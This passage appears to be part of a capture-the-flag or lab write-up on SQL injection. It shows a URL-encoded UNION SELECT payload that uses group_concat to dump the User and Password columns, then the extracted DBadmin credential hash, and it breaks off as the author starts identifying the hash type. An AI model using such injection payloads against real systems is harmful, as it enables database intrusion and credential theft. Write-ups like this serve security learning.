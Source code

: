 > Like previous one, the browser page can't show all the column names
> Changing to burp's pretty tab
> I know there are 2 columns make me interesting.
1. User
2. Password

![](./IMG/42.png)

> So, I used the following payload 

```
100%20UNION%20SELECT%201,group_concat(User,0x7c,Password),3,4,5,6,7%20From%20user;--%20-
```

![](./IMG/43.png)

> I got the credential (maybe it works for phpmyadmin page)

```
DBadmin | 2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```

> I used the following 2 method  to check the hash type

1. [Online site](https://www.tunnelsup.com/hash-analyzer/) 